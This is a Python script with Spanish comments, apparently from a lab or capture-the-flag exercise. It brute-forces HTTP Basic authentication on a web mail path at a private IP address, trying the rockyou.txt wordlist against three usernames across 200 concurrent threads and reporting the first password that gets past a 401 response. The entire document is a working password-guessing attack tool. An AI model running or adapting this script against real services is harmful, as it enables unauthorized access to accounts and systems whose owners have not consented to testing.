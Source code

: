 ```
#!/usr/bin/python3

import requests
import sys
import signal
import time
import pdb
import concurrent.futures
from base64 import b64encode
from base64 import b64decode
from pwn import *

# Definición del manejador de señal para Ctrl+C
def def_handler(signal, frame):
    print("\n\n[!] Saliendo...\n")
    sys.exit(1)

# Asociación de la señal SIGINT con el manejador
signal.signal(signal.SIGINT, def_handler)

# URL principal del servicio web objetivo
main_url = "http://192.168.182.129/zmail"

# Función para realizar la autenticación con combinaciones de usuario y contraseña
def makeAuthentication(combination_b64, p1):
    combination = combination_b64.decode()
    headers = {
        'Authorization': 'Basic %s' % combination
    }
    r = requests.get(main_url, headers=headers)
    if r.status_code != 401:
        p1.success("La contraseña es %s" % (b64decode(combination)).decode())
        sys.exit(0)

# Función para realizar el proceso de fuerza bruta
def makeAuthorization():
    users = ["deez1", "p48", "all2"]
    f = open("/usr/share/wordlists/rockyou.txt", "rb")
    p1 = log.progress("Fuerza bruta")
    p1.status("Iniciando proceso de fuerza bruta")
    time.sleep(2)
    counter = 1
    for password in f.readlines():
        with concurrent.futures.ThreadPoolExecutor(max_workers=200) as executor:
            password = (password.strip()).decode()
            for user in users:
                combination = user + ':' + password
                p1.status("Probando con la contraseña [%d/14344392]: %s" % (counter, combination.split(':')[1]))
                combination_b64 = b64encode(combination.encode())
                executor.submit(makeAuthentication, combination_b64, p1)
                counter += 1

# Punto de entrada principal del script
if __name__ == '__main__':
    makeAuthorization()


```
